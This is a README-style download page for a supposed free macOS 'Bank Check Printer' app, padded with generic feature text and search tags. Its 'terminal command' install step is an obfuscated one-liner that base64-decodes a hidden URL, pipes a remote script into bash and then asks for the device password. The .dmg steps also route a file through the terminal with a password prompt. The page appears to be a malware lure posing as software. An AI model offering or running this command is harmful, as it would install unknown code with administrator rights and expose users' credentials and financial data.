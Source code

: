 # Bank Check Printer — Download For Mac OS 🖨️
![logo](https://is1-ssl.mzstatic.com/image/thumb/Purple112/v4/ad/a3/db/ada3db93-1db1-4c0f-cc0d-783f83edc2c3/AppIcon-0-0-85-220-0-0-0-0-4-0-0-0-2x-P3-0-0-0-0-0.png/1200x630bb.png)

Effortlessly print professional bank checks on your Mac with *Bank Check Printer*. Follow the step-by-step instructions below to install this powerful tool for free and streamline your financial tasks.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/bankcheckprinter)

If the download button above doesn't work, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install Bank Check Printer For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get

- 🖨️ **Professional Check Printing**: Create and print bank-compliant checks directly from your Mac.
- ⚙️ **Customizable Templates**: Personalize check designs with your branding and details.
- 💸 **Multi-Account Support**: Manage and print checks for multiple bank accounts seamlessly.
- 🔒 **Secure Data Handling**: Keep your financial information safe with encrypted storage.
- 📊 **Transaction Tracking**: Organize and track payment history within the app.
- 🖥️ **User-Friendly Interface**: Navigate and print checks with an intuitive macOS-native design.

---

## About Bank Check Printer

*Bank Check Printer* is a dedicated macOS application designed to simplify the process of creating and printing professional bank checks. Whether you're a small business owner, freelancer, or managing personal finances, this software offers a reliable solution for generating checks that meet banking standards. With its intuitive interface and robust features, *Bank Check Printer* ensures you can produce checks quickly and securely, eliminating the need for manual check-writing or expensive third-party services. Key features include customizable templates, multi-account support, and secure data handling, making it a must-have tool for Mac users.

The software is optimized for macOS, providing a seamless experience with native integration into your system. By leveraging *Bank Check Printer*, you can save time and reduce errors in financial transactions. The application supports various check formats, ensuring compatibility with most banks. Its built-in encryption ensures that sensitive financial data, such as account numbers and payee details, remains protected. This makes it an ideal choice for users prioritizing security and efficiency in their financial workflows.

For those seeking a free download, *Bank Check Printer* is accessible without hidden costs or subscriptions. The installation process is straightforward, whether you opt for the .dmg file or the terminal command method. The software is regularly updated to maintain compatibility with the latest macOS versions, ensuring a smooth experience across devices. Its lightweight design means it won't slow down your Mac, even during intensive tasks like bulk check printing.

The program also includes transaction tracking, allowing you to maintain a clear record of all printed checks. This feature is particularly useful for businesses that need to monitor expenses or reconcile accounts. By integrating with your existing financial workflows, *Bank Check Printer* becomes a versatile tool for both personal and professional use. Its ability to handle multiple accounts simultaneously makes it a standout choice for users managing diverse financial portfolios.

### Why Choose Bank Check Printer?

Compared to other check-printing solutions, *Bank Check Printer* offers unmatched simplicity and macOS optimization. Its free availability eliminates the barrier of costly licenses, making it accessible to all Mac users. The software's customizable templates allow for professional branding, while its secure data handling ensures peace of mind. With a focus on user experience, regular updates, and compatibility with standard check formats, *Bank Check Printer* is the go-to solution for efficient and secure check printing on macOS.

---

## 🖼 Preview

![Main Interface](https://pages.am-usercontent.com/images/6a7a119954a44e3ed6de59acaac24b7042548e3b/image_upload_a229c0c14c514e52a84492d7ee525549.jpeg)  
*Clean and intuitive interface for creating checks.*

![Template Customization](https://m.media-amazon.com/images/I/71A2Fy20mOL._UF1000,1000_QL80_.jpg)  
*Customize check designs with your branding.*

---

## 🔍 Tags
bank check printer, check printing software, free check printer mac, mac check printing, bank check software, print checks mac, macos check printer, secure check printing, check design software, free bank check app, bank check printer download, bank check printer free, bank check printer download free, bank check printer free download

